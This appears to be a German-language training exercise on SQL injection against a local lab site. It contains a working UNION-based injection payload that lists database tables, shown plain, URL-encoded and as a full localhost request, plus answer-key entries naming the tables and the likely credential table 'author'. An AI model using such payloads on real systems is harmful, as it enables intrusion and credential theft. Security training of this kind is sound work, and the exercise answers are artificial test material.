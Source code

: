 Ändern Sie das Statement so ab, dass Sie die Namen der Tabellen in der Datenbank auslesen können.

Tipp:
Sie benötigen die Funktion `GROUP_CONCAT()` sowie Metadaten aus der View `INFORMATION_SCHEMA.TABLES`.

Tipp 2:
https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/

' AND 1=0 UNION SELECT 0,0,0,0,0,(SELECT GROUP_CONCAT(TABLE_NAME) FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='highlight_db' ),0;--
'%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(TABLE_NAME)%20FROM%0AINFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_SCHEMA%3D'highlight_db'%20)%2C0%3B--%20
http://localhost:82/index.php?id=2%27%20AND%201%3D0%20UNION%20SELECT%200%2C0%2C0%2C0%2C0%2C(SELECT%20GROUP_CONCAT(TABLE_NAME)%20FROM%0AINFORMATION_SCHEMA.TABLES%20WHERE%20TABLE_SCHEMA%3D%27highlight_db%27%20)%2C0%3B--%20

>>11) Welche Tabellen befinden sich in der Datenbank? Geben Sie die Tabellennamen in alphabetisch aufsteigender Sortierung und durch Leerzeichen getrennt an.<<
     === author community highlight

>>12) Welche der Tabellen könnte Login-Daten für Accounts mit Bearbeitungsrechten enthalten?<<
     === author